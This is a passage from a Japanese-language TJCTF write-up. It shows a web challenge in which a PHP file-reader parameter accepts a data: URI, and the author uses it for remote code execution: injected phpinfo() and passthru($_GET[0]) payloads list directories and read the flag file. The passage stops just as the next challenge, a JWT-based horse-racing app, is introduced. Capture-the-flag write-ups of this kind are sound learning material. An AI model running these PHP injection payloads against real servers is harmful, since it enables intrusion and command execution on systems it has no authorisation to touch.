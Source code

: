 とりあえず `apple.txt` を入力して送信してみると、`/reader.php?file=apple.txt` に遷移して `Apples are great! I love the golden version.` と表示されました。

PHP が使われており、読み込むファイルを GET パラメータで指定できることから LFI もしくは RFI を疑います。`/reader.php?file=data:,<?php%20phpinfo();%20?>` にアクセスすると `phpinfo()` が表示されました。RFI ができるようです。

`/reader.php?file=data:,<?php%20passthru($_GET[0]);%20?>&0=ls%20-la` で `i_wonder_whats_in_here` というディレクトリの存在を確認できました。

```
total 44
dr-xr-xr-x 1 www-data www-data 4096 May 24 16:07 .
drwxr-xr-x 1 root     root     4096 May 15 12:41 ..
-r--r--r-- 1 root     root       44 May 18 15:32 apple.txt
-r--r--r-- 1 root     root       74 May 24 15:12 grape.txt
dr-xr-xr-x 1 root     root     4096 May 24 15:12 i_wonder_whats_in_here
-r--r--r-- 1 root     root     3012 May 18 15:32 index.html
-r--r--r-- 1 root     root       27 May 18 15:32 orange.txt
-r--r--r-- 1 root     root       49 May 18 15:32 pear.txt
-r--r--r-- 1 root     root       27 May 18 15:32 pinneaple.txt
-r--r--r-- 1 root     root     2532 May 18 15:32 reader.php
-r--r--r-- 1 root     root       22 May 18 15:32 watermelon.txt
```

`/reader.php?file=data:,<?php%20passthru($_GET[0]);%20?>&0=ls%20-la%20i_wonder_whats_in_here` で `i_wonder_whats_in_here/flag.php` の存在が確認できました。

```
total 12
dr-xr-xr-x 1 root     root     4096 May 24 15:12 .
dr-xr-xr-x 1 www-data www-data 4096 May 24 16:07 ..
-r--r--r-- 1 root     root       47 May 24 15:12 flag.php
```

`/reader.php?file=data:,<?php%20passthru($_GET[0]);%20?>&0=cat%20i_wonder_whats_in_here/flag.php` でフラグが得られました。

```php
<?php
    // tjctf{n1c3_j0b_with_lf1_2_rc3}
?>
```

```
tjctf{n1c3_j0b_with_lf1_2_rc3}
```

## [Web 80] Moar Horse 4 (77 solves)
> It seems like the TJCTF organizers are secretly running an underground virtual horse racing platform! They call it 'Moar Horse 4'... See if you can get a flag from it!
> 
> 添付ファイル: server.zip

与えられた URL にアクセスすると、適当な馬を買って `MechaOmkar-YG6BPRJM` という馬とレースをさせることができる Web アプリケーションが表示されました。

`server.zip` には `server.py` という Python コード、`horse_names.txt` という馬の名前のリスト、`pubkey.pem` という JWT 用の公開鍵などが含まれていました。`server.py` は以下のような内容でした。
